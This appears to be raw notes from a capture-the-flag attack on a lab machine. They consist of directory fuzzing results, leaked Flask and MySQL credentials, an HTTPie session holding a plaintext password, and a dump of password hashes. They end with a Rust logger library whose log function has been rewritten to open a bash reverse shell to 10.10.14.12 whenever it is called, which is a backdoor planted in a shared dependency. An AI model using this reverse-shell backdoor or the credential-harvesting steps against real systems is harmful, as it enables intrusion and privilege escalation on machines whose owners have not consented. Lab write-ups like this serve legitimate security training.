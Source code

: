 10.10.11.218

000000026:   200        76 L     554 W      5584 Ch     "about"                                            
000000025:   200        68 L     261 W      3543 Ch     "contact"                                          
000000053:   200        82 L     249 W      4392 Ch     "login"                                            
000000138:   200        82 L     249 W      4392 Ch     "view"                                             
000000259:   200        82 L     249 W      4392 Ch     "admin"                                            
000000390:   200        154 L    691 W      9043 Ch     "guide"                                            
000001086:   200        53 L     61 W       3187 Ch     "pgp"                                              
000001225:   200        82 L     249 W      4392 Ch     "logout"                                           
000001927:   405        5 L      20 W       153 Ch   "process"                                          



"$M1DGu4rD$"


    app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21'
    app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'



{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}


+----+----------------+--------------------------------------------------------------------------------------------------------+
| id | username       | password                                                                                               |
+----+----------------+--------------------------------------------------------------------------------------------------------+
|  1 | Odin           | pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f |
|  2 | silentobserver | pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d |
+----+----------------+--------------------------------------------------------------------------------------------------------+


/home/silentobserver/.local/bin


mysql://tipnet:4The_Greater_GoodJ4A@localhost:3306/Upstream



/opt/crates/logger/src/lib.rs

extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;
 
pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.12/1234 0>&1";
 
    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("not work");

    if output.status.success() {
        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);
 
        println!("standar output: {}", stdout);
        println!("error output: {}", stderr);
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("Error: {}", stderr);
    }
 
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
 
    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}